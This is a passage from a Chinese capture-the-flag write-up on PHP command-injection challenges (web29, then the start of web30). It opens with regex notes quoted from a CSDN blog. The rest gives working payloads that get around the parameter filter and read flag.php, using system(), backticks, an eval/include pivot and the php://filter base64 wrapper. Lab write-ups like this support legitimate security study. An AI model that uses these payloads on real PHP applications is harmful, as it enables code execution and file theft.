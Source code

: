 ```
eg：
[a-z]表示任何小写字母
a*会匹配所有内容，因为a可以出现0次
o{2,}不匹配Bob中o，匹配foooooood中所有的o
————————————————
版权声明：本文为CSDN博主「zgqxiexie」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/zgqxiexie/article/details/51184602
```

这题中我们的指令为

```
?c=system("cat f*");
```

传入后查看源码

![image-20231216114202484](image/image-20231216114202484.png)

得到flag

##### 方法二：

```
1.通配符fla?绕过flag检测

2.c=echo `nl fl\ag.php`;//转义字符绕过

3.通过变量赋值直接绕过c的过滤 这个后面会经常用到，到时候再细讲
c=include($_GET[1]);&1=php://filter/read=convert.base64-encode/resource=flag.php

4.c=eval($_GET[1]);&1=system('nl flag.php');

```



------

#### web30

进入后分析一下

![image-20231216114217747](image/image-20231216114217747.png)
